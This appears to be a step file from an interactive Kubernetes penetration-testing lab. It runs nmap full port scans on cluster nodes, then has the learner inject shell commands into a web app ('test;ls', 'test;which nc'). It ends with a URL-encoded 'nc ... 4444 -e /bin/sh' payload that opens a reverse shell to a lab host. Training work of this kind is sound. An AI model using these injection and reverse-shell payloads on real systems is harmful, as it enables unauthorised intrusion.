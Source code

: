 ### Scan for open ports might take some time

`nmap <Copy Link from the above scenerio of master node> -p- -sV -oA k8s-pt-full-scan`{{execute}}

`nmap <Copy Link from the above scenerio of worker node> -p- -sV -oA k8s-pt-full-scan`{{execute}}

### Enter test;%20ls in the webapp

`echo "RG9ja2VyZmlsZQphcGkucHkKcmVxdWlyZW1lbnRzLnR4dAo=" | base64 --decode`{{execute}}

### Enter test;which%20nc

`echo "L3Vzci9iaW4vbmMK" | base64 --decode`{{execute}}

<pre>
    `test;nc%[[HOST_SUBDOMAIN]]-80-[[KATACODA_HOST]].[[KATACODA_DOMAIN]]%204444%20-e%20/bin/sh`{{copy}}
</pre>